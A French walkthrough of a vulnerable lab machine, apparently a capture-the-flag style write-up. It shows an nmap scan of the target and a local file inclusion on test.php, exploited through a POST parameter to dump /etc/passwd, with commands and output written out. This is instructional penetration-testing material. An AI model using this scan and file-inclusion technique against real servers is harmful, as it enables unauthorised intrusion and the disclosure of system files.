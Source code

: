 Toute phase d'attaque commence par une analyse du système cible. Un scan [__nmap__](https://nmap.org/book/man.html) va nous permettre à la fois d'identifier les services installés sur le serveur, et d'obtenir des informations sur le système d'exploitation. Seuls deux ports TCP sont ouverts : un accès SSH (port 22) et un serveur Web Apache (port 80) sur lequel le script NSE (_Nmap Scripting Engine_) ```http-enum``` a détecté la présence d'une page ```test.php``` !

```console
root@blinils:~# nmap -sT -sV -p- 192.168.56.107 --script=http-enum
Nmap scan report for 192.168.56.107
Host is up (0.00028s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-enum: 
|   /test.php: Test page
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_http-server-header: Apache/2.2.22 (Ubuntu)
MAC Address: 08:00:27:1C:31:B1 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Local File Inclusion (LFI) sur la page test.php

![Affichage de l'image Billubox_index.png](images/Billubox_index.png)

Très rapidement, on devine une [inclusion de fichier local](https://www.commentcamarche.net/contents/61-attaques-par-manipulation-d-url) (_local file inclusion_ en anglais) sur la page ```test.php``` et son paramètre ```action```. Le but du jeu consiste à lire le contenu de fichiers stockés sur le serveur, autres que ceux initialement prévus dans le schéma de navigation du site. Rien n'empêche d'inclure un autre fichier présent sur le serveur, puisqu'aucun contrôle n'est implémenté sur la valeur du paramètre ```file```.

Un exemple ? Le fichier ```/etc/passwd``` qui contient la liste des utilisateurs du système. La méthode [GET](https://www.w3schools.com/tags/ref_httpmethods.asp) (le paramètre ```file``` est inclus dans l'URL) est testée en premier  : aucun résultat. La méthode [POST](https://www.w3schools.com/tags/ref_httpmethods.asp) (le paramètre est situé dans le corps de la requête) est ensuite testée : bingo !

```console
root@blinils:~# curl http://192.168.56.107/test.php
'file' parameter is empty. Please provide file path in 'file' parameter

root@blinils:~# curl http://192.168.56.107/test.php?file=/etc/passwd
'file' parameter is empty. Please provide file path in 'file' parameter

root@blinils:~# curl http://192.168.56.107/test.php --data "file=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
--snip--
whoopsie:x:104:107::/nonexistent:/bin/false
landscape:x:105:110::/var/lib/landscape:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
```
